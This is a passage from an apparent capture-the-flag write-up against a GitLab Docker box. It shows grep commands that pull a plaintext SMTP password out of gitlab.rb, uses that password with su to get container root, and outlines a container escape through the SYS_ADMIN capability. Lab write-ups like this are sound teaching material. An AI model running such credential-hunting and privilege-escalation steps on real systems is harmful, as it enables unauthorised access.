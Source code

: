 ```terminal
gitlab.rb:# gitlab_shell['http_settings'] = { user: 'username', password: 'password', ca_file: '/etc/ssl/cert.pem', ca_path: '/etc/pki/tls/certs', self_signed_cert: false}
gitlab.rb:##! `SQL_USER_PASSWORD_HASH` can be generated using the command `gitlab-ctl pg-password-md5 gitlab`
gitlab.rb:# postgresql['sql_user_password'] = 'SQL_USER_PASSWORD_HASH'
gitlab.rb:# postgresql['sql_replication_password'] = "md5 hash of postgresql password" # You can generate with `gitlab-ctl pg-password-md5 <dbuser>`
gitlab.rb:# redis['password'] = 'redis-password-goes-here'
gitlab.rb:####! **Master password should have the same value defined in
gitlab.rb:####!   redis['password'] to enable the instance to transition to/from
gitlab.rb:# redis['master_password'] = 'redis-password-goes-here'
gitlab.rb:# geo_secondary['db_password'] = nil
gitlab.rb:# geo_postgresql['pgbouncer_user_password'] = nil
gitlab.rb:#     password: PASSWORD
gitlab.rb:###! generate this with `echo -n '$password + $username' | md5sum`
gitlab.rb:# pgbouncer['auth_query'] = 'SELECT username, password FROM public.pg_shadow_lookup($1)'
gitlab.rb:#     password: MD5_PASSWORD_HASH
gitlab.rb:# postgresql['pgbouncer_user_password'] = nil
git@gitlab:/opt/backup$
```

`docker-compose.yml` references the `root_pass` file in the root directory, but it also looks like `gitlab.rb` has quite a few hits on password as well.

Now we drill down to find `password` in `gitlab.rb`, but we want to remove results that start with a `#` since those are comments in the file and don't mean anything to us:
```terminal
git@gitlab:/opt/backup$ grep 'password' gitlab.rb | grep -v '^#'
grep 'password' gitlab.rb | grep -v '^#'
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

That shows us something  interesting. Perhaps we can use this to get docker root:

```terminal
git@gitlab:/opt/backup$ su - root
su - root
Password: wW59U!ZKMbG9+*#h

root@gitlab:~#
```

Success!

---

## **Root**

Admittedly, I started looking at breakout attempts before I privesc'd to docker root. When reviewing the LinePEAS output, it showed caps that were enabled. Most of what I found on the web would reference a pretty simple way to gain root on the host box with certain capabilities enabled, which in this case looked like everything. I eventually fell on this [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_sys_admin) which, with SYS_ADMIN capability enabled, could allow the docker container to "mount the host disk and access it freely."
